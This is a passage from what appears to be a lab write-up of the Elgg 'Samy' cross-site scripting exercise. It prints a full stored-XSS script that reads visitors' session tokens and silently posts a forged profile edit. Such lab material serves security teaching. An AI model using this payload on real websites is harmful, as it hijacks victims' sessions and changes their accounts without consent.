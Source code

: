 ![alt text](https://github.com/Qurat-ul-ainn/Cross-scripting-attack/blob/main/55.PNG)

Now we want to modify the ```about me``` module in the profile of someone as "modified by Samy" if he/she visits Samy's profile page. Save the code below as Samy's profile:

```
<script type="text/javascript">
  window.onload = function () {
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var description =
      "&description=<p>modified by Samy<p>" + "&accesslevel[description]=2";
    //Construct the content of your url.
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var content = userName + guid + ts + token + description;
    var samyGuid = 47;
    if (elgg.session.user.guid != samyGuid) {
      //Create and send Ajax request to modify profile
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
      Ajax.setRequestHeader(
        "Content-Type",
        "application/x-www-form-urlencoded"
      );
      Ajax.send(content);
    }
  };
</script>

```
Then, visit Samy's profile using Boby's account. Boby's profile is modified at once:
